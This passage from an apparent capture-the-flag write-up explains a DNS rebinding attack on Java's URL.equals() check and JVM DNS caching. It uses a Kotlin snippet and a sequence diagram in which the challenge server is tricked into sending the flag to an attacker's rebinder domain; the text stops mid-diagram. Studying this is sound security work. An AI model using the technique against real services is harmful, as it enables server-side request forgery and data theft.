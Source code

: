 ```kotlin {lineNos=inline, lineNoStart=23}
if(h.hook == hook) {
    var newBody = h.template.replace("_DATA_", body);
    var conn = hook.openConnection() as? HttpURLConnection;
```

Moreover, Java's built-in DNS cache mechanism made things even more complicated.  
While testing my basic DNS rebinding primitive, I noticed that I was getting the same status code in response to the `/webhook` endpoint for a period of 30 seconds. This sounded a bit strange to me since my DNS server was configured to reply with a 1 second TTL. In fact, what I did was a quick sanity check using both curl and python, and from both these clients the response to my rebinder domain kept changing every second:  

![DNS test](./img/dns_python_test.png "Python DNS test: caching NOT enabled")

![DNS test](./img/dns_java_test.png "Java DNS test: caching enabled")

!["*idk if java is doing some weird caching, python and curl behave differently. Trying multithread. I think i'm dossing example.org 💀*"](./img/foggia.png "*\"idk if java is doing some weird caching, python and curl behave differently. Trying multithread. I think i'm dossing example.org\"* 💀")


Clearly some caching was at work in the Java side. It turns out that Java caches a DNS resolution for 30 seconds, which meant that we wanted to get our timing right when sending payload to the `/webhook` endpoint, so that **the cache would be fetched at the time of comparison against example.org, to be invalidated immediately afterwards, thus requiring a cache revalidation at the time of the socket connection to send the flag to a domain under our control.**  
Below I've illustrated the attack workflow.

<div style="background-color:white; padding: 20px">
{{< mermaid >}}
sequenceDiagram
    title DNS Rebinding attack flow on Java `URL.equals()`

    participant Attacker as Attacker
    participant ChallengeServer as Challenge Server
    participant AttackerServer as Attacker Rebinder Service (xxxx.rbndr.us)
    participant DNS as Attacker DNS Server

    Attacker->>ChallengeServer: POST /endpoint <br/> ?hook=xxxx.rbndr.us

    note over DNS: DNS A Record is 93.184.215.14, TTL=1 (example.org IP)
    note over DNS: DNS A Record is 83.130.170.16, TTL=1 (attacker IP)
    note over DNS: DNS A Record is 93.184.215.14, TTL=1 (example.org IP)
    note over DNS: DNS A Record is 83.130.170.16, TTL=1 (attacker IP)
    note over DNS: ...

    note over ChallengeServer: 1) the server code uses <br/>URL.equals() to compare <br/>“xxxx.rbndr.us” vs “example.org”
    ChallengeServer->>DNS: DNS Query A for xxxx.rbndr.us
    note over DNS: 2) DNS A Record is 93.184.215.14, TTL=1 (example.org IP)
    DNS-->>ChallengeServer: DNS A response (TTL=1) for xxxx.rbndr.us: 93.184.215.14

    note over ChallengeServer: 3) URL.equals() returns true <br/> because IP matches example.org <br/>
    note over DNS: DNS A Record is 83.130.170.16, TTL=1 (attacker IP)
    note over ChallengeServer: 4) hook.openConnection() <br/> where hook=xxxx.rbndr.us <br/>
    ChallengeServer->>DNS: DNS Query A for xxxx.rbndr.us
    